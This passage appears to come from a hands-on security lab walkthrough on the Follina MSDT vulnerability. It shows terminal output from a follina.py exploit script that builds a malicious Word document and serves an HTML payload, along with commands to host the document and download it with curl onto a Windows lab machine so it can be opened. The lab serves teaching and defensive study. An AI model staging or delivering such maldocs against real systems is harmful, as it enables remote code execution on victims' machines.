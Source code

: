 ```

Launch the exploit

           
root@attackbox:~/Rooms/Follina-MSDT# python3.9 follina.py
[+] copied staging doc /tmp/[random string]
[+] created maldoc ./follina.doc
[+] serving html payload on :8000

```

Upon firing up the exploit, you should be hosting the file already, so it’s ready to be “delivered” to the victim machine. Effective delivery mechanisms of malicious payloads are outside the scope of this room, so we’ll just settle for a simpler way of transferring files from linux to windows:

While keeping the original terminal open, open another terminal in your Attackbox and enter the following command:

```

Simple HTTP Server

           
root@attackbox:~# cd ~/Rooms/Follina-MSDT 
root@attackbox:~/Rooms/Follina-MSDT# python -m http.server 3456
Serving HTTP on 0.0.0.0 port 3456 (http://0.0.0.0:3456/) ...


```


Start the Windows machine and wait for it to initialize. When everything's settled, proceed to open a command prompt and enter the following command: 

```

Maldoc Download

           
Microsoft Windows [Version]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator> cd Desktop
C:\Users\Administrator\Desktop> curl http://[attackbox IP]:3456/follina.doc -o follina.docx


```

This downloads the maldoc in our machine and as such, shortly after, you should be able to see the word file named follina.docx appear in the Desktop, ready to be run. When you're ready, open the file and watch what happens.

For now, let's allow the maldoc and all of the stuff that it spawned, to remain running, while we examine the contents of the process explorer.
